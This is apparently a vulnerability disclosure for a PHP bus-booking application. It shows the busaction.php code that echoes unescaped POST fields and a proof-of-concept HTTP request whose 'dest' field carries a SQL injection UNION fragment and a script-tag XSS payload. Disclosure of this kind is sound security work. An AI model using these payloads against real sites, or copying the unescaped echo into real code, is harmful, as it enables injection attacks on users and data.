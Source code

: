 
# 5. busaction.php Cross-site Scripting (XSS)

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/e9dd0cae-ebc2-4e7e-a31a-f154332232fd)

```
$source = $_POST['source'];
$dest = $_POST['dest'];

$no = $_POST['number'];
...

echo "<br><br><br><h1><center>Total fare of bus number <b>".$busnum."</b> from <b>".$source." to ".$dest."</b> is  : ₹ <b>".$final."</b> </center></h1><br><br>";

```

Reflected XSS (or Non-Persistent) - The server reads data directly from the HTTP request and reflects it back in the HTTP response. Reflected XSS exploits occur when an attacker causes a victim to supply dangerous content to a vulnerable web application, which is then reflected back to the victim and executed by the web browser. The most common mechanism for delivering malicious content is to include it as a parameter in a URL that is posted publicly or e-mailed directly to the victim. URLs constructed in this manner constitute the core of many phishing schemes, whereby an attacker convinces a victim to visit a URL that refers to a vulnerable site. After the site reflects the attacker's content back to the victim, the content is executed by the victim's browser.

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/34726338-7aa2-4afc-bf6f-259095f5836a)

POC:

```
POST /busaction.php HTTP/1.1
Host: onlinebus
Content-Length: 140
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://onlinebus
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://onlinebus/bookbus.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=jmetab2u149tgvq0m6nh6mbeh9
Connection: close

source=Dadoji+Kondadev+Stadium&dest=Court+Naka'UNION ALL SELECT NULL,'<script>alert(123)</script>',NULL,NULL,NULL-- -&number=2&login_submit=
```

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/444a0881-9ee1-4e8a-9673-b5eb656cb267)
